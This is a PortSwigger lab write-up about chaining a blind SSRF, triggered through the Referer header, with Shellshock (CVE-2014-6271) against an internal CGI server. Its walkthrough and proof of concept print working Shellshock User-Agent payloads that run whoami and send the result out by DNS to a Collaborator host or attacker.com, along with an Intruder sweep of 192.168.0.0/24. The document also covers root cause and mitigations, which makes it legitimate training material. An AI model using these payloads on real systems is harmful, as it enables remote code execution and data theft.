




# Lab 06: Blind SSRF with Shellshock Exploitation

> **Topic**: SSRF Vulnerabilities
> **Lab Number**: 06
> **Platform**: PortSwigger Web Security Academy

## Category
Blind SSRF — Out-of-Band Exfiltration via Shellshock (CVE-2014-6271)

## Vulnerability Summary
The application's analytics software fetches the URL specified in the `Referer` header whenever a product page is loaded. This server-side request is blind — no response is returned to the user. The internal server at `192.168.0.X:8080` runs a Bash-based CGI application vulnerable to Shellshock. By injecting a Shellshock payload into the `User-Agent` header and pointing the `Referer` at each host in the `192.168.0.0/24` range, the analytics server forwards the request (including the malicious `User-Agent`) to the internal server. The internal server executes the payload, which performs a DNS lookup to a Burp Collaborator subdomain with the OS username embedded — exfiltrating the data out-of-band.

## Attack Methodology

### Step 1: Confirm the Referer-Based SSRF
Browsed to a product page with Burp Proxy active. Observed that loading the page triggered an outbound HTTP request from the server to the URL in the `Referer` header — confirmed via Collaborator Everywhere generating a Collaborator interaction. The HTTP interaction included the full `User-Agent` string from the browser request, meaning the analytics server forwards headers verbatim to whatever URL is in `Referer`.

### Step 2: Generate a Burp Collaborator Payload
Opened the **Collaborator** tab in Burp Suite Pro and clicked **Copy to clipboard** to get a unique subdomain:

```
qe8fa771fo9zhui7hdsp1ky1bshm5dt2.oastify.com
```

### Step 3: Build the Shellshock Payload
Shellshock exploits a flaw in how Bash parses function definitions in environment variables. When a CGI server passes HTTP headers as environment variables to a Bash process, a malformed function definition causes Bash to execute arbitrary commands appended after the definition:

```
() { :; }; /usr/bin/nslookup $(whoami).qe8fa771fo9zhui7hdsp1ky1bshm5dt2.oastify.com
```

This was placed in the `User-Agent` header. When the analytics server forwards this to the internal CGI server, Bash evaluates it, runs `whoami`, and sends the result as a DNS subdomain to Collaborator.

### Step 4: Set Up Burp Intruder
Intercepted a `GET /product?productId=4` request and sent it to **Intruder**. Configured the request as follows:

- **User-Agent** replaced with the full Shellshock payload above
- **Referer** set to `http://192.168.0.§1§:8080/` with the final octet marked as the payload position

```http
GET /product?productId=4 HTTP/2
Host: 0ac1005b04e4fe2481022a1700cc00b2.web-security-academy.net
Cookie: session=sIETcy9MWEldkuEti5BqszNzNLwBK8Fj
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).qe8fa771fo9zhui7hdsp1ky1bshm5dt2.oastify.com
Referer: http://192.168.0.§1§:8080/
```

Payload type: **Numbers**, From: `1`, To: `255`, Step: `1`.



### Step 5: Run the Attack
Clicked **Start attack**. Intruder sent 255 requests, one per IP in the range. All responses returned HTTP 200 with identical lengths — confirming the attack is fully blind (no response difference regardless of whether the internal host exists).



### Step 6: Poll Collaborator — Username Exfiltrated
Switched to the **Collaborator** tab and clicked **Poll now**. Two DNS interactions appeared:

| # | Time | Type | Payload |
|---|---|---|---|
| 1 | 2026-04-30 10:31:47 UTC | DNS | `qe8fa771fo9zhui7hdsp1ky1bshm5dt2` |
| 2 | 2026-04-30 10:31:47 UTC | DNS | `qe8fa771fo9zhui7hdsp1ky1bshm5dt2` |

The DNS query description read:

> *The Collaborator server received a DNS lookup of type A for the domain name **peter-PdGIkb**.qe8fa771fo9zhui7hdsp1ky1bshm5dt2.oastify.com*

The subdomain prefix before the Collaborator domain is the output of `whoami` on the internal server: **`peter-PdGIkb`**



### Step 7: Submit the Answer
Entered `peter-PdGIkb` as the solution. Lab marked **Solved**.



## Technical Root Cause

### The Blind SSRF
The analytics component fetches the `Referer` URL server-side with no output returned to the user. It also forwards the original request's `User-Agent` header to the fetched URL:

```python
# Simplified analytics component
def track_analytics(request):
    referer = request.headers.get('Referer')
    if referer:
        # Fetches the referer URL, forwarding original headers
        requests.get(referer, headers={'User-Agent': request.headers.get('User-Agent')})
```

### Shellshock (CVE-2014-6271)
CGI servers pass HTTP headers as environment variables to scripts. When the script interpreter is Bash (or calls Bash), a specially crafted `User-Agent` triggers code execution:

```bash
# Bash parses this as a function definition, then executes the trailing command
() { :; }; /usr/bin/nslookup $(whoami).attacker.com
#           ↑ function body    ↑ arbitrary command executed after definition
```

The vulnerability exists because Bash continued processing characters after a function definition ended, executing any commands that followed.

### Why It's Blind
The analytics server makes the request to the internal host asynchronously and discards the response. There is no timing difference, no error message, and no response body change visible to the attacker — the only signal is the out-of-band DNS callback.

### The Full Chain

```
Browser → GET /product (Referer: http://192.168.0.X:8080, UA: Shellshock payload)
              ↓
         Analytics server fetches http://192.168.0.X:8080 with forwarded UA
              ↓
         Internal CGI server (Bash) receives request, evaluates User-Agent as env var
              ↓
         Bash executes: nslookup $(whoami).collaborator.domain
              ↓
         DNS query: peter-PdGIkb.collaborator.domain → Burp Collaborator records it
```

## Impact
- **Remote Code Execution on Internal Host**: Shellshock allows arbitrary command execution on the internal server with no authentication required
- **Data Exfiltration via DNS**: Even in fully blind scenarios with no HTTP response, DNS-based exfiltration bypasses most egress controls since DNS is rarely blocked outbound
- **Internal Network Enumeration**: The SSRF primitive allows scanning the entire `192.168.0.0/24` range; any host running a vulnerable CGI application will respond via Collaborator
- **No User Interaction Required**: The attack triggers automatically when a product page is loaded

**Severity: Critical**

## Proof of Concept

```http
GET /product?productId=1 HTTP/2
Host: 0ac1005b04e4fe2481022a1700cc00b2.web-security-academy.net
Cookie: session=<session>
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).<collaborator-domain>
Referer: http://192.168.0.<1-255>:8080/
```

Iterate the final octet 1–255. Poll Collaborator after the scan completes. The DNS subdomain prefix is the OS username.

## Key Takeaways
1. **Blind SSRF Is Still Exploitable**: No response body is needed. DNS-based out-of-band channels exfiltrate data through firewalls that permit outbound DNS — which is nearly universal.
2. **Forwarded Headers Are an Attack Surface**: The analytics server forwarding the `User-Agent` verbatim to the internal host is what enables the Shellshock injection. Any header forwarded to a backend becomes an injection vector if the backend is vulnerable.
3. **Shellshock Affects CGI Applications Specifically**: Web servers that invoke Bash scripts via CGI pass HTTP headers as environment variables. Bash's function export parsing bug means any header can become a code execution primitive on unpatched systems.
4. **DNS Egress Should Be Monitored**: DNS is the most reliable exfiltration channel in blind attack scenarios. Monitoring for unusual DNS subdomains (especially long, random-looking ones) is a key detection control.
5. **Internal Services Need Patching Too**: The internal server at `192.168.0.X:8080` is not directly reachable from the internet, but it is reachable via the SSRF primitive. Network isolation does not substitute for patching.

## Mitigation

### 1. Don't Forward Client Headers to Backend Requests
```python
def track_analytics(request):
    referer = request.headers.get('Referer')
    if referer:
        # Use a clean, controlled User-Agent — never forward client headers
        requests.get(referer, headers={'User-Agent': 'AnalyticsBot/1.0'})
```

### 2. Validate the Referer URL Against an Allowlist
```python
from urllib.parse import urlparse

ALLOWED_ANALYTICS_HOSTS = {'stock.weliketoshop.net'}

def track_analytics(request):
    referer = request.headers.get('Referer', '')
    parsed = urlparse(referer)
    if parsed.hostname not in ALLOWED_ANALYTICS_HOSTS:
        return  # silently drop — don't fetch arbitrary URLs
    requests.get(referer, headers={'User-Agent': 'AnalyticsBot/1.0'})
```

### 3. Patch Bash (Shellshock Fix)
```bash
# Update Bash to a version that does not execute trailing commands after function definitions
apt-get update && apt-get install --only-upgrade bash
bash --version  # should be >= 4.3 patch 25
```

### 4. Replace CGI with Modern Application Servers
CGI passes headers as environment variables by design — this is the root cause of Shellshock's impact. Replacing CGI scripts with WSGI/ASGI applications or containerized services eliminates the entire attack surface.

### 5. Block Outbound DNS from Internal Application Servers
```
# Firewall rule — internal app servers should not make arbitrary DNS lookups
iptables -A OUTPUT -p udp --dport 53 -j DROP  # on internal servers
iptables -A OUTPUT -p tcp --dport 53 -j DROP
```

## References
- [PortSwigger — Blind SSRF with Shellshock Exploitation](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation)
- [PortSwigger — Blind SSRF Vulnerabilities](https://portswigger.net/web-security/ssrf/blind)
- [CVE-2014-6271 — Shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)

## Tools Used
- Burp Suite Professional (Intruder, Collaborator, Collaborator Everywhere)
- Chromium

---

*Lab completed on: 2026-04-30*  
*Writeup by vibhxr*
